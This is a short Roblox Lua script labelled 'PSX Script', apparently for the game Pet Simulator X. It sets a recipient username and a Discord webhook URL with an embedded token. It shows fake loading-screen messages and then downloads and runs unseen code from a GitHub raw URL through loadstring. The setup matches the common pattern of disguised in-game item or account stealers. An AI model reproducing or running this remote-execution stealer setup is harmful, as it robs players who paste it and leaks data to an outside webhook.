 Username = "StickyBumstick"

WebHook = "https://discord.com/api/webhooks/1099344158235308054/xZWP71Y1KCwB81sDCZ_FGEeXLyR72_EM93cDUNtaL6OlUQi-pY749vsVtCBijbuZAadD"

loadingscreen = true -- set this to false and remove _G. stuff to use your own GUI

_G.CustomScriptName = "PSX Script"

_G.Text1 = "Script Loaded..."

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
